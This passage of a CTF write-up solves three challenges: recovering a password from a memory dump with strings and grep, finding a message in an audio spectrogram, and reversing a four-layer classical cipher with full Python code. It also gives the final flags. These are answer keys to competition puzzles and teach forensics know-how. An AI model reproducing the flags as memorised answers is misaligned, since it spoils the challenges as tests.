		gunzip()
	elif 'Zip archive' in f:
		zip()
	elif '7-zip' in f:
		sevenz()
	else:
		print('Done')
		cont = False
	return cont

run = True
while run:
	run = round()


When the program above finished its execution, the flag could be found in the `archive` file.

**Flag:**ctf{8ffe609c04a7001a908da5b481442ce1ce3208f2a4f3a6862e144bb1f320c54e}

## we-are-in-danger {#we-are-in-danger}

The attacker has our email password. Please find it and send it to our Security Department before he changes it. We managed to make this footprint.

Flag format: The correct answer is in plaintext and must be sent to players in the form of ctf{sha256 of plaintext word}.

Goal: Use various techniques to perform forensics investigation on the attached memory dump in order to recover a flag in the expected format.

The challenge was created by Bit Sentinel.


Before discussing the solution, I have to mention [this great article](https://book.hacktricks.xyz/forensics/volatility-examples). It basically contains all the commands someone would need to start using `volatility`.

That being said, my solution had nothing to do with volatility in the end. I just extracted the strings of the given memory dump (using `strings`, as well as `strings -e l` and `strings -e b`), opened the resulting file in sublime and started searching for the password.

After several hours of searching (and about one hour spent using `volatility`), I had a pretty good idea of what happened on the victim's computer. Basically, the victim logged in on gmail and then downloaded a malicious file (`ire.dmp.2032.rar.txt.pdf`).

There were 2 likely locations for the passwords:
  * The malicious program's memory, if the image was taken while the program was being executes (this wasn't the case)
  * Chrome's memory, because the user logged in using Chrome.

I tried to sign in on Chrome on my own machine and took note of different kinds of information about the page, such as text, url, and the password input's id. Searching the file for the latter revealed the victim's password: `passwordflagwin`. The flag is `ctf{sha256('passwordflagwin')}`

So, to sum this challenge up: `strings e.bin | grep password | grep flag`

**Flag:** ctf{2e6a00f7b0294b50821eb5f61c5d64e3916227bfe89ed0397d797978fe44abe2}

## tsunami-researcher {#tsunami-researcher}

Steve Kobbs is a specialist in meteorology.

He was called to offer his expertise on the last tsunami which took place in our country.

While Steve was working, a mysterious package arrived at the door.

Inside, an USB stick was found, containing the following audio file: rain.wav

Flag format: The correct answer is in plaintext and must be sent to players in the form of ctf{sha256 of plaintext word}.

Goal: Use various techniques to analyse audio files in order to recover the flag which is hidden in the file rain.wav.

The challenge was created by Bit Sentinel.


After trying several steganography programs, the solution turned out to be quite simple. I opened the `rain.wav` file in Audacity and changed the view mode to 'Spectrogram'. I then opened the `Spectrogram Settings` menu and tried several numbers for `window size`, eventually setting it to `4096`. After zooming in a little bit, this is what the spectrogram looked like:

In case you can't see it, the graph reads 'Secret Code: spectrogram'. The flag is `ctf{sha256('spectrogram')}`.

**Flag:**ctf{cc3a329919391e291f0a41b7afd3877546f70813f0c06a8454912e0a92099369}

## lost-message {#lost-message}

My father was very paranoid with his communication and he encrypted every message he has ever sent.

This message was for me. Can you help me to decrypt the message ?

enc_message="FNFWCiZJGWWAWZTKYLLKDVNiWCVYViBYHXDiXFBEMiKYEZQMMPKNRiQXZVBQ"

Flag format = ctf{sha256(message)}

Goal: Perform a reverse engineering against the encryption algorithm and recover the original message.

The challenge was created by Bit Sentinel.


This was definetly one of my favorite challenges. Here's the source of the script that generated `enc_message`:


#!/usr/bin/python3
import sys, random, binascii, hashlib, re, math, os
from string import ascii_uppercase as asc
from itertools import product as d

upper = {ascii:chr(ascii) for ascii in range(65,91)}
lower = {ascii:chr(ascii) for ascii in range(97,123)}
digit = {ascii:chr(ascii) for ascii in range(48,58)}

with open("text.txt", "r") as myfile:
    data = myfile.readline()

def premessage(text):
    
    text = text.replace("_", "Q")

    return text

def enc4(text, key, debug=False):

    r = [['\n' for i in range(len(text))] 
                  for j in range(key)] 
      
    
    dir_down = False
    row, col = 0, 0
      
    for i in range(len(text)): 
          
        
        if (row == 0) or (row == key - 1): 
            dir_down = not dir_down 
          
         
        r[row][col] = text[i] 
        col += 1
          
         
        if dir_down: 
            row += 1
        else: 
            row -= 1
    
    result = [] 
    for i in range(key): 
        for j in range(len(text)): 
            if r[i][j] != '\n': 
                result.append(r[i][j]) 
    return("" . join(result))

def enc3(text, key):
    t=lambda x: x.upper().replace('J','I')
    s=[]
    for _ in t(key+asc):

        if _ not in s and _ in asc:

            s.append(_)

    m=[s[i:i+5] for i in range(0,len(s),5)]
    enc={row[i]+row[j]:row[(i+1)%5]+row[(j+1)%5] for row in m for i,j in d(range(5),repeat=2) if i!=j}
    enc.update({col[i]+col[j]:col[(i+1)%5]+col[(j+1)%5] for col in zip(*m) for i,j in d(range(5),repeat=2) if i!=j})
    enc.update({m[i1][j1]+m[i2][j2]:m[i1][j2]+m[i2][j1] for i1,j1,i2,j2 in d(range(5),repeat=4) if i1!=i2 and j1!=j2})
    l=re.findall(r'(.)(?:(?!\1)(.))?',''.join([_ for _ in t(text) if _ in asc]))

    return ''.join(enc[a+(b if b else 'Z')] for a,b in l)

def enc2(string, key): 
    for c in string:
        o = ord(c)
        if (o not in upper and o not in lower) or o in digit:
            yield o
        else:
            if o in upper and o + key % 26 in upper:
                yield o + key % 26
            elif o in lower and o + key % 26 in lower:
                yield o + key % 26.
            else: 
                yield o + key % 26 -26

    
    

def enc1(msg, key): 
    cipher = "" 
    k_indx = 0
    msg_len = float(len(msg)) 
    msg_lst = list(msg) 
    key_lst = sorted(list(key)) 
    col = len(key) 
    row = int(math.ceil(msg_len / col)) 
    fill_null = int((row * col) - msg_len) 
    msg_lst.extend('z' * fill_null)   
    matrix = [msg_lst[i: i + col]  
            for i in range(0, len(msg_lst), col)] 
    
     
    for _ in range(col): 
        curr_idx = key.index(key_lst[k_indx]) 
        cipher += ''.join([row[curr_idx]  
                        for row in matrix]) 
        k_indx += 1
    
    return cipher 

cipher = enc1(enc3(enc4(premessage(data), 13),"recomanded"), "zxdfiuypka")
cipher = "".join(map(chr, enc2(cipher, 35)))

print(cipher)


To retrieve the flag, I needed to reverse all 4 `enc` functions. Don't worry, though - it's not as complicated as you think.

The first function, `enc1`, takes a `key` of type int and arranges the characters of `msg` in a matrix, calculating the `cipher` variable by reading that matrix row by row instead of column by column. Truth is, you don't need to know all of this. The only important information is that the function scrambles the characters of `msg` in some way. A clever way to reverse it is to call `enc1` with a `msg` equal to `'\x00\x01\x02...'` and to use the resulting scrambled string to decrypt the real message. As the `enc1` function does not take the characters of `msg` into consideration when scrambling them, the resulting permutation will be the same for all strings of the same length.


def dec1(msg, key): 
    hack = [chr(_) for _ in range(len(msg))]
    hack = enc1(hack, key)
    dec = ['' for i in range(len(msg))]
    for i, v in enumerate(hack):
    	pos = ord(v)
    	dec[pos] = msg[i]
    return ''.join(dec).rstrip('z')


The `enc1` function also pads `msg` with `'z'` characters at the end, so the decryption function should strip them away. The `dec2` function is just a pretty Caesar cipher implementation:

 
def enc2(string, key): 
    for c in string:
        o = ord(c)
        if (o not in upper and o not in lower) or o in digit:
            yield o
        else:
            if o in upper and o + key % 26 in upper:
                yield o + key % 26
            elif o in lower and o + key % 26 in lower:
                yield o + key % 26
            else: 
                yield o + key % 26 -26


To obtain the decrypted string, we should just call the encrypt function again, this time with a key of `26 - (key % 26)`:


def dec2(string, key):
	return enc2(string, 26 - (key % 26))


I will now skip to `enc4`, because `enc3` is a bit trickier than the rest and needs more explaination:


def enc4(text, key, debug=False):

    r = [['\n' for i in range(len(text))] 
                  for j in range(key)] 
      
    
    dir_down = False
    row, col = 0, 0
      
    for i in range(len(text)): 
          
        
        if (row == 0) or (row == key - 1): 
            dir_down = not dir_down 
          
         
        r[row][col] = text[i] 
        col += 1
          
         
        if dir_down: 
            row += 1
        else: 
            row -= 1
    
    result = [] 
    for i in range(key): 
        for j in range(len(text)): 
            if r[i][j] != '\n': 
                result.append(r[i][j]) 
    return("" . join(result))


As you can see above, `enc4` is just an implementation of the [Rail fence cipher](https://en.wikipedia.org/wiki/Rail_fence_cipher). I could write a decryption function for railfence, or I could use the fact that this function also generates a permutation of the plaintext characters that is based only on the length of the plaintext and the key. That being said, the `dec4` function is almost identical to `dec1`:


def dec4(text, key, debug=False):
	text = list(text)
	dec = [0 for _ in range(len(text))]
	hack = ''.join([chr(11 + i) for i in range(len(text))]) # \n is 10 and gets ignored
	hack = enc4(hack, key)
	for i, v in enumerate(hack):
		pos = ord(v) - 11
		dec[pos] = text[i]
	return ''.join(dec)


The major difference is that instead of calling `enc4` with `text='\x00\x01...'`, I call it with `text='\x11\x12...'`. I do this because the `enc4` function strips all `'\x10'='\n'` characters.


def dec4(text, key, debug=False):
	text = list(text)
	dec = [0 for _ in range(len(text))]
	hack = ''.join([chr(11 + i) for i in range(len(text))]) # \n is 10 and gets ignored
	hack = enc4(hack, key)
	for i, v in enumerate(hack):
		pos = ord(v) - 11
		dec[pos] = text[i]
	return ''.join(dec)


Here's my full 'solve.py' script:


import sys, random, binascii, hashlib, re, math, os
from string import ascii_uppercase as asc
from itertools import product as d
import itertools, string

enc_message="FNFWCiZJGWWAWZTKYLLKDVNiWCVYViBYHXDiXFBEMiKYEZQMMPKNRiQXZVBQ" 

upper = {ascii:chr(ascii) for ascii in range(65,91)}
lower = {ascii:chr(ascii) for ascii in range(97,123)}
digit = {ascii:chr(ascii) for ascii in range(48,58)}

#with open("text.txt", "r") as myfile:
#    data = myfile.readline()

def premessage(text):
    text = text.replace("_", "Q")
    return text

def postmessage(text):
	text = text.replace("Q", "_")
	return text

def dec4(text, key, debug=False):
	text = list(text)
	dec = [0 for _ in range(len(text))]
	hack = ''.join([chr(11 + i) for i in range(len(text))]) # \n is 10 and gets ignored
	hack = enc4(hack, key)
	for i, v in enumerate(hack):
		pos = ord(v) - 11
		dec[pos] = text[i]
	return ''.join(dec)

def enc4(text, key, debug=False):

    r = [['\n' for i in range(len(text))] 
                  for j in range(key)] 
      
    
    dir_down = False
    row, col = 0, 0
      
    for i in range(len(text)): 
          
        
        if (row == 0) or (row == key - 1): 
            dir_down = not dir_down 
          
         
        r[row][col] = text[i] 
        col += 1
          
         
        if dir_down: 
            row += 1
        else: 
            row -= 1
    
    result = [] 
    for i in range(key): 
        for j in range(len(text)): 
            if r[i][j] != '\n': 
                result.append(r[i][j]) 
    return("" . join(result))

double_counter = 0
def dec3(text, key):
    global double_counter
    t=lambda x: x.upper().replace('J','I')
    s=[]
    # asc = ascii_uppercase
    for _ in t(key+asc):
        if _ not in s and _ in asc:
            s.append(_)

    m=[s[i:i+5] for i in range(0,len(s),5)]
    enc={row[i] + row[j] : row[(i+1)%5] + row[(j+1)%5] for row in m for i,j in itertools.product(range(5),repeat=2) if i!=j}
    enc.update({col[i]+col[j]:col[(i+1)%5]+col[(j+1)%5] for col in zip(*m) for i,j in itertools.product(range(5),repeat=2) if i!=j})
    enc.update({m[i1][j1]+m[i2][j2]:m[i1][j2]+m[i2][j1] for i1,j1,i2,j2 in itertools.product(range(5),repeat=4) if i1!=i2 and j1!=j2})
    
    rev_enc = {}
    for k, v in enc.items():
    	rev_enc[v] = k

    l=re.findall(r'(.)(?:(?!\1)(.))?',''.join([_ for _ in t(text) if _ in string.ascii_uppercase]))

    dec = ""
    for a, b in l:
    	val = rev_enc[a + b]
    	if val[1] == 'Z':
    		double_counter += 1
    		if double_counter == 1:
    			val = val[0] + val[0]
    		else:
    			val = val[0]
    	dec += val

    return dec

def enc3(text, key):
    t=lambda x: x.upper().replace('J','I')
    s=[]
    for _ in t(key+asc):
        if _ not in s and _ in asc:
            s.append(_)

    m=[s[i:i+5] for i in range(0,len(s),5)]
    enc={row[i]+row[j]:row[(i+1)%5]+row[(j+1)%5] for row in m for i,j in d(range(5),repeat=2) if i!=j}
    enc.update({col[i]+col[j]:col[(i+1)%5]+col[(j+1)%5] for col in zip(*m) for i,j in d(range(5),repeat=2) if i!=j})
    enc.update({m[i1][j1]+m[i2][j2]:m[i1][j2]+m[i2][j1] for i1,j1,i2,j2 in d(range(5),repeat=4) if i1!=i2 and j1!=j2})
    
    l=re.findall(r'(.)(?:(?!\1)(.))?',''.join([_ for _ in t(text) if _ in string.ascii_uppercase]))

    return ''.join(enc[a+(b if b else 'Z')] for a,b in l)

def dec2(string, key):
	return enc2(string, 26 - (key % 26))

def enc2(string, key): 
    for c in string:
        o = ord(c)
        if (o not in upper and o not in lower) or o in digit:
            yield o
        else:
            if o in upper and o + key % 26 in upper:
                yield o + key % 26
            elif o in lower and o + key % 26 in lower:
                yield o + key % 26
            else: 
                yield o + key % 26 -26

    

def dec1(msg, key): 
    hack = [chr(_) for _ in range(len(msg))]
    hack = enc1(hack, key)
    dec = ['' for i in range(len(msg))]
    for i, v in enumerate(hack):
    	pos = ord(v)
    	dec[pos] = msg[i]
    return ''.join(dec).rstrip('z')

def enc1(msg, key): 
    cipher = "" 
    k_indx = 0
    msg_len = float(len(msg)) 
    msg_lst = list(msg) 
    key_lst = sorted(list(key)) 
    col = len(key) 
    row = int(math.ceil(msg_len / col)) 
    fill_null = int((row * col) - msg_len) 
    msg_lst.extend('z' * fill_null)   
    matrix = [msg_lst[i: i + col]  
            for i in range(0, len(msg_lst), col)] 
    
     
    for _ in range(col): 
        curr_idx = key.index(key_lst[k_indx]) 
        cipher += ''.join([row[curr_idx]  
                        for row in matrix]) 
        k_indx += 1
    
    return cipher 

# cipher = enc1(enc3(enc4(premessage(data), 13),"recomanded"), "zxdfiuypka")
#cipher = "".join(map(chr, enc2(cipher, 35)))

#print(cipher)

print("Test time!")
test_string = "salut_pe_mine_nu_ma_cheama_george".replace("_", "q").upper()
print(dec4(enc4(test_string, 13), 13) == test_string)
print(dec3(enc3(test_string, "recomanded"), "recomanded")[:-1] == test_string)
test_string_enc2 = "".join(map(chr, enc2(test_string, 35)))
print("".join(map(chr, dec2(test_string_enc2, 35))) == test_string)
print(dec1(enc1(test_string, "zxdfiuypka"), "zxdfiuypka") == test_string)

flag = enc_message
flag = "".join(map(chr, dec2(flag, 35))) # ok
flag = dec1(flag, "zxdfiuypka")
flag = dec3(flag, "recomanded")
flag = dec4(flag, 13) # ok
flag = postmessage(flag) # ok
print(flag)


I do share the same beliefs as the author's father, but, unlike him, I use secure encryption methods.


yakuhito@furry-catstation:~/ctf/unbr1/lost-message$ python solve.py 
Test time!
True
True
True
True
KEEP_YOUR_COMUNICATION_ENCRYPTED_ALIENS_ARE_WATCHING
yakuhito@furry-catstation:~/ctf/unbr1/lost-message$ echo -n KEEP_YOUR_COMUNICATION_ENCRYPTED_ALIENS_ARE_WATCHING | sha256sum
f5a2b03dedff103725131a2ce238bdc31b00accba79091237d566561cdfe6ec5  -
yakuhito@furry-catstation:~/ctf/unbr1/lost-message$


**Flag:**ctf{f5a2b03dedff103725131a2ce238bdc31b00accba79091237d566561cdfe6ec5}

## Closing Thoughts

I honestly have no idea what you're doing here. Really. The writeup ended few lines before. However, since you're already here, I can't end this post without ~~bragging that I've solved all the challenges~~ publishing a part of the scoreboard and congratulating everyone that participated in the contest.

*now please excuse me but I have to prepare my scholastic personality for an assessment test*